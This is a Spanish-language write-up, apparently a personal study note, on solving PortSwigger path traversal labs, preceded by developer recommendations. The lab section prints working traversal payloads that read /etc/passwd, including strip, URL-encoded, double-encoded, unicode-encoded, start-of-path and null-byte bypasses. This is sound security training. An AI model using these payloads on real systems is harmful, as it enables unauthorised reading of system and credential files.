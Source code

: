 

## Recomendaciones para el desarrollador

1. sanitizar o validar la entrada del parametro filename
2. todas las operaciones de la API debe seguir el principio de Least Privilege
3. Uno de los principales riesgos de un path traversal es subir una reverse shell, secuestrar llaves SSH
4. strict validation of user input: Java: getCanonicalPath, PHP: realpath
5. Aunque hay contramedidas para stripear los pattern mas comunes siempre pueden saltarse, favor verificar: https://www.redsentry.com/blog/exploring-the-dangers-of-path-traversal-vulnerabilities-in-web-applications


## Resolucion de los labs de port swigger:

- LAB01: usar un relative path con saltos hacia atras (3 creo)

- LAB02: usar un absolute path

```
- LAB03: este lab tenia medidas de proteccion (strips) pero aca se aprende los distintos bypass:
	- usar ....//....//.....//+el nombre del archivo
	- usar url encoding: filename=%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2fetc%2fpasswd

filename=%u002e%u002e%u002e%u002e%u2215%u2215%u002e%u002e%u002e%u002e%u2215%u2215%u002e%u002e%u002e%u002e%u2215%u2215etc%u2215passwd

```

```
- LAB04: utiliza bloqueadores que se parecen a path traversal, luego ejecuta un URL decode del input antes de usarlo

Explicacion:

The whole **traversal sequences stripped with superfluous URL-decode** means that the input will be decoded using the URL decoding scheme, and if any path traversal sequence is found, that will be stripped away.

Entonces el objetivo es saltarse el decoding:

Mi primer payload fue este:
filename=%252e%252e..%252f%252f%252e%252e..%252f%252f%252e%252e..%252f%252fetc%252f%252fpasswd

Estaba probando un double encoding siguiendo estos caracteres:

. -> %252e
/ -> %252f

entonces empece a probar hasta que encontre el idoneo:
filename=%252e%252e%252f%252f%252e%252e%252f%252f%252e%252e%252fetc%252fpasswd


```

```
- LAB05: validation of start of path, en el enunciado dice:
The application transmits the full file path via a request parameter, and validates that the supplied path starts with the expected folder.

Este lab lo descifre por mis propios medios, creo que una clave fue que interactue con la forma en como era verificado el start path, una vez lo entendi fue facil encontra la repuesta:

la app siempre espera algo asi:
filename=/var/www/images/etc/passwd

entonces simplemente podia pivotear con moverme hacia donde queria, el payload me quedo asi:
filename=/var/www/images/../../../etc/passwd


```


```
- LAB06: validation of file extension with null byte bypass
The application validates that the supplied filename ends with the expected file extension.

este url fue util:
https://www.radware.com/cyberpedia/application-security/null-byte-injection/

este ejercicio nos introduce a identificar la tecnica del NULL byte injection

payload que funciono:
filename=../../../etc/passwd%00.jpg

mi error fue tratar de bypassear la validacion original:
filename=2%00.jpg

en realidad un archivo llamado 2 no existe por eso me daba error, pero cuando ya decidi probar con el archivo passwd funciono

```